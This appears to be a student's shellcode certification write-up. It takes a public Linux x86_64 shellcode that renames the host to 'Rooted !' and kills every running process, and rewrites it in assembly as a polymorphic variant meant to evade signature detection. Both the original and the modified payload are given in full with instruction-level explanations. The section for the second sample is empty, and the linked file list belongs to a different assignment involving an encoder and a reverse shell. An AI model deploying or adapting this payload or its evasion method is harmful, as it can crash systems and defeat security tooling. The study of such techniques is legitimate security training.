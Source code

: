 ## Assignment #6: Polymorphing
---
---
### Introduction
---
This assignment consists of taking three shellcode samples from shell-storm.org for Linux x86_64 and create polymorphic examples that are no larger than 150% the original size.

The goal of this task is to mimic the same original functionality, but to beat pattern matching techniques that could be used to fingerprint the payload.

Below are the three samples choosen with their original code and the polymorphic version with brief explanations on what has been done.

### Sample 1: `sethostname() & killall 33 bytes shellcode`
---

* Shellcode Name: Linux/x86_64 sethostname() & killall 33 bytes shellcode
* Author: zbt
* Description: Changes the name of the host to "Rooted!" and then kills all processes running on the system
* Original Shellcode Size: 33 bytes
* Max Size of the polymorphic Version: 49 bytes
* Size of the Created Polymorphic Version: **46 bytes (below the 150%)**

The original code for the sample is:

```asm
    section .text
        global _start
 
    _start:
 
        ;-- setHostName("Rooted !"); 22 bytes --;
        mov     al, 0xaa
        mov     r8, 'Rooted !'
        push    r8
        mov     rdi, rsp
        mov     sil, 0x8
        syscall
 
        ;-- kill(-1, SIGKILL); 11 bytes --;
        push    byte 0x3e
        pop     rax
        push    byte 0xff
        pop     rdi
        push    byte 0x9
        pop     rsi
        syscall
```

The Polymorphic version created is (comments of changes in the code):

```asm
global _start

section .text

_start:

        jmp real_start
        string: db "Rooted !"

real_start:

        ;-- setHostName("Rooted !"); 22 bytes --;
        ;mov     al, 0xaa
        ; RAX needs the 0xaa value.
        ; 1.- First RAX will take value 70
        ; 2.- Value 100 is added to rax
        ; 3.- RDX is used to pur some garbage in the shellcode
        push 70
        pop rax
        cdq                        ; Garbage (1 byte
        push 100
        pop rdx
        add rax, rdx

        ; Let's define a string and use Relative Addressing
        ;mov     r8, 'Rooted !'
        ;push    r8
        ;mov     rdi, rsp
        lea rdi, [rel string]

        ;mov     sil, 0x8
        push 0x08
        pop rsi

        syscall

        ;-- kill(-1, SIGKILL); 11 bytes --;
        push    byte 0x3e
        pop     rax
        
        ; Let's push 0xc1 into RDI
        ; Then add RAX to RDI
        ; 0xff = 0x3e + 0xc1
        ;push    byte 0xff
        ;pop     rdi
        push byte 0xc1
        pop rdi
        add rdi, rax                    ; RAX already has 0x3e value

        ; RSI comes with a 0x08 value from previous code
        ; Just need to Inc it to get the 0x09 value
        ;push    byte 0x9
        ;pop     rsi
        inc rsi                         ; RSI has value 0x8 from previous
                                        ;  syscall, then can increment 1
                                        ;  to get the same value of 0x9
        syscall
```
Changes made:
1. A 8 bytes string is defined for storing the `"Rooted !"` instead of doing it in the stack. This **adds 10 bytes** to the shellcode and forces us to:
  - Add a `jmp` to a real start label to bypass the string
  - Use Relative Addressing later to reference to this string, and 
```asm
_start:
        jmp real_start
        string: db "Rooted !"
real_start:
```
2. In the original code, RAX needs the value `0xaa`. To acomplish the same result the code is changed adding several instructions to get the same result. With this change, from 2 bytes of size for the original `mov`, size is increased to 10 bytes (2 extra bytes used):
```asm

                                   push 0x46
                                   pop rax
mov al, 0xaa       ==>>            cdq
                                   push 0x64
                                   pop rdx
                                   add rax, rdx       ; Here RAX is 0xaa
```
3. In the original code, the '"Rooted !" string is saved in the stack, and RDI gets the address in the stack for this string. As the string has been defined as a variable, now can be accessed using relative addressing. The original code was 15 bytes, and with the change now is 7 bytes (saved 8 bytes here).
```asm
movabs r8,"Rooted !"
push r8                    ==>      lea rdi, [rel string]
mov rdi, rsp
```
4. Replace `mov` by `push;pop` instructions. Here RSI needs the value `0x08`. In the new code, the value is pushed in the stack and then poped in RSI:
```asm
mov sil, 0x08              ==>        push 0x08
                                      pop rsi
```
5. Replace the `push;pop` instructions to put `0xff` value in RDI. As RAX has value at this point of `0x3e` we add the value `0xc1` to RDI and add an instruction to sum both values into RDI:
```asm
push 0x3e                push 0x3e
pop rax                  pop rax
push 0xff    ==>         push 0xc1
pop rdi                  pop rdi
                         add rdi, rax
```
6. As RSI already has value `0x08` from before, and now requires `0x09` value, just need to increment it. Then the `mov` is replaced by a ìnc`
```asm
push 0x09
pop rsi        ==>       inc rsi
```

### Sample 2: 
---







### GitHub Repo Files
---
The [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment04) for this assignment contains the following files:

- [Encoder.c](https://github.com/galminyana/SLAE64/blob/main/Assignment04/Encoder.c) : This C file is the implementation of the Encoder Scheme. Prints out a encoded shellcode.
- [Decode-Execve-Stack.nasm](https://github.com/galminyana/SLAE64/blob/main/Assignment04/Decode-Execve-Stack.nasm) : This is the NULL free code for the Egg Hunter.
- [Execve-Stack.nasm](https://github.com/galminyana/SLAE64/blob/main/Assignment4/ReverseShell-ExecveStack_V2.nasm) : This is the code for the shellcode to use in the PoC.
- [shellcode.c](https://github.com/galminyana/SLAE64/blob/main/Assignment04/shellcode.c) : The C template Decode-Execve-Stack.nasm Shellcode, ready to compile and execute


### The End
---
This pages have been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html).

Student ID: PA-14628
 
